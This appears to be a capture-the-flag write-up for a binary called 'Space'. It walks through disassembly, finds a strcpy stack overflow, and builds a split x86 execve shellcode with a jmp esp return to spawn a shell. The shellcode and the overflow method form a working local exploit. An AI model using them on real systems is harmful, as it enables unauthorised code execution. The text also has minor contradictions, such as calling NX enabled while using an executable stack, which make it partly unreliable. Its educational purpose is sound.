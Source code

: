 # Space

This challenge was an easy shellcoding based challenge wherein the constraints were length. We had to cleverly make use of a shellcode in order to spawn the shell. To understand better, let's dive right in!

## Preliminary ananlysis on the binary:
- file:
file:///home/shravya/Pictures/Screenshot%20from%202021-10-14%2013-03-54.png![image](https://user-images.githubusercontent.com/59280388/137272155-f94bad4e-e970-4561-8adb-aa0ef79f7dcc.png)
- permissions:
file:///home/shravya/Pictures/Screenshot%20from%202021-10-14%2013-05-08.png![image](https://user-images.githubusercontent.com/59280388/137272340-8f2a629c-ee52-4f90-aeda-a2062791a084.png)

As we can NX is enabled. Rop is another way to approach and solve this problem, however we shall make use of the shellcode as the stack is already executable in nature. 

## Approach:
To state the obvious, we will need an execve shellcode to pop out a shell! However we must look into the binary given and find out the vulnerability!

Below is the disassembly for main():
```   
   0x080491da <+11>:	mov    ebp,esp
   0x080491dc <+13>:	push   ebx
   0x080491dd <+14>:	push   ecx
   0x080491de <+15>:	sub    esp,0x20
   0x080491e1 <+18>:	call   0x80490d0 <__x86.get_pc_thunk.bx>
   0x080491e6 <+23>:	add    ebx,0x20de
   0x080491ec <+29>:	sub    esp,0xc
   0x080491ef <+32>:	lea    eax,[ebx-0x12bc]
   0x080491f5 <+38>:	push   eax
   0x080491f6 <+39>:	call   0x8049040 <printf@plt>
   0x080491fb <+44>:	add    esp,0x10
   0x080491fe <+47>:	mov    eax,DWORD PTR [ebx-0x4]
   0x08049204 <+53>:	mov    eax,DWORD PTR [eax]
   0x08049206 <+55>:	sub    esp,0xc
   0x08049209 <+58>:	push   eax
   0x0804920a <+59>:	call   0x8049050 <fflush@plt>
   0x0804920f <+64>:	add    esp,0x10
   0x08049212 <+67>:	sub    esp,0x4
   0x08049215 <+70>:	push   0x1f
   0x08049217 <+72>:	lea    eax,[ebp-0x27]
   0x0804921a <+75>:	push   eax
   0x0804921b <+76>:	push   0x0
   0x0804921d <+78>:	call   0x8049030 <read@plt>
   0x08049222 <+83>:	add    esp,0x10
   0x08049225 <+86>:	sub    esp,0xc
   0x08049228 <+89>:	lea    eax,[ebp-0x27]
   0x0804922b <+92>:	push   eax
   0x0804922c <+93>:	call   0x80491a4 <vuln>
   0x08049231 <+98>:	add    esp,0x10
   0x08049234 <+101>:	mov    eax,0x0
   0x08049239 <+106>:	lea    esp,[ebp-0x8]
   0x0804923c <+109>:	pop    ecx
```
As we can see, the size of the stack is 0x20, whereas only 0x1f bytes of input data are read! Which means there is no possibility of an overflow. However a look into the vuln() function shows:

```
   0x080491a4 <+0>:	push   ebp
   0x080491a5 <+1>:	mov    ebp,esp
   0x080491a7 <+3>:	push   ebx
   0x080491a8 <+4>:	sub    esp,0x14
   0x080491ab <+7>:	call   0x8049243 <__x86.get_pc_thunk.ax>
   0x080491b0 <+12>:	add    eax,0x2114
   0x080491b5 <+17>:	sub    esp,0x8
   0x080491b8 <+20>:	push   DWORD PTR [ebp+0x8]
   0x080491bb <+23>:	lea    edx,[ebp-0xe]
   0x080491be <+26>:	push   edx
   0x080491bf <+27>:	mov    ebx,eax
   0x080491c1 <+29>:	call   0x8049060 <strcpy@plt>
   0x080491c6 <+34>:	add    esp,0x10
   0x080491c9 <+37>:	nop
   0x080491ca <+38>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080491cd <+41>:	leave  
   0x080491ce <+42>:	ret 
   ```
   From the above snippet of the disassembly of vuln(), we can see that strcpy() is being used and therefore we can overrwite eip to get a shell. 
   
   To find the buffer size before eip, we shall give a random input buffer of length 0x1f. 
   ```buf = cyclic(0x1e)```
   
   file:///home/shravya/Pictures/Screenshot%20from%202021-10-14%2014-31-54.png![image](https://user-images.githubusercontent.com/59280388/137286010-409c0c82-f585-48f7-876c-ecec53287009.png)

   In the above snippet, for our inp = "aaaabaaacaaadaaaeaaafaaagaaaha", segfault occurs at ```0x61666161```. i.e eip is located after 18 bytes of input data.
   
   The total size of pur input is only 31 bytes. Which means, we need to split a shellcode in such a way that the first part of the shellcode compromizes the last 9 bytes of our input data. The second part of our shellcode must account for the first 18 bytes of input data.
   
   This can be further explained as:
   Consider the shellcode:
   ```
      31 c9                   xor    ecx, ecx
      31 d2                   xor    edx, edx
      52                      push   edx
      68 2f 2f 73 68          push   0x68732f2f
      68 2f 62 69 6e          push   0x6e69622f
      89 e3                   mov    ebx, esp
      6a 0b                   push   0xb
      58                      pop    eax
      cd 80                   int    0x80
   ```
   The above shellcode is for an x86 execve syscall. We are required to split the shellcode in such a way that:
    - first 18 bytes: part1 of shellcode
    - return address (eip) : jmp esp
    - remaining 9 bytes: part2 of shellcode
      
   ## Splitting the shellcode:
   
   ```
   shell1 = 'xor ecx, ecx\n'
   shell1 += 'xor edx, edx\n'
   shell1 += 'sub esp, 0x16\n'
   shell1 += 'call eax\n'
   shell1 = asm(shell1)

   shell2 = 'push edx\n'
   shell2 += 'push 0x68732f2f\n'
   shell2 += 'push 0x6e69622f\n'
   shell2 += 'mov ebx, esp\n'
   shell2 += 'push 0xb\n'
   shell2 += 'pop eax\n'
   shell2 += 'int 0x80\n'
   shell2 = asm(shell2)
```

  - len(shell1) = 9 and len(shell2) = 18
  - While giving input it is essential that the last 9 bytes are executed along with the first 18! Thus a ```jmp``` to ```esp``` after the first 18 bytes i.e overwriting ```eip``` with ```jmp_esp``` instruction would make sure the smooth execution of our shellcode.

